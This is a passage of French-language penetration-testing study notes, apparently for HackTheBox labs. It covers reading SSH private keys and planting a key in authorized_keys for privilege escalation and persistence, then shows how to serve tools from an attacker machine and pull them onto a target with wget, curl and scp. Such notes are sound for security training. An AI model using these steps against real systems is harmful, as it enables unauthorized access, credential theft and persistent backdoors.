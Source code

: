 * Lire les **clés privées SSH** si les permissions le permettent (`/home/user/.ssh/id_rsa`).
* Ajouter une clé publique à `authorized_keys` si l'on a des permissions d'écriture.
  * Générer une paire de clés : `ssh-keygen -f key`.

***

### <mark style="color:blue;">**8. Outils et Références**</mark>

* <mark style="color:green;">**Outils**</mark> :
  * **GTFOBins** : Liste de commandes exploitables avec sudo.
  * **LOLBAS** : Liste d'applications Windows exploitables.
* <mark style="color:green;">**Références**</mark> <mark style="color:green;"></mark><mark style="color:green;">:</mark>
  * [HackTricks Linux Privesc Checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

***

## <mark style="color:red;">**Transferring Files**</mark>

**Objectif :** Transférer des fichiers vers et depuis un serveur distant lors d'un test de pénétration, en utilisant des méthodes variées, que ce soit avec des shells standards ou des outils comme Metasploit.

#### <mark style="color:green;">**1. Utilisation de wget et cURL**</mark>

**a. Python HTTP Server**

*   Sur la machine locale, démarrer un serveur HTTP :

    ```bash
    bmrroboteLiot@htb[/htb]$ cd /tmp
    mrroboteLiot@htb[/htb]$ python3 -m http.server 8000
    ```
*   Sur la machine distante, télécharger le fichier avec wget :

    ```bash
    user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
    ```
*   Ou avec cURL :

    ```bash
    user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
    ```

#### <mark style="color:green;">**2. Utilisation de SCP**</mark>

*   Transférer un fichier avec scp en utilisant des identifiants ssh :

    {% code title="SCP" overflow="wrap" lineNumbers="true" fullWidth="true" %}
    ```bash
    mrroboteLiot@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh
    ```
    {% endcode %}
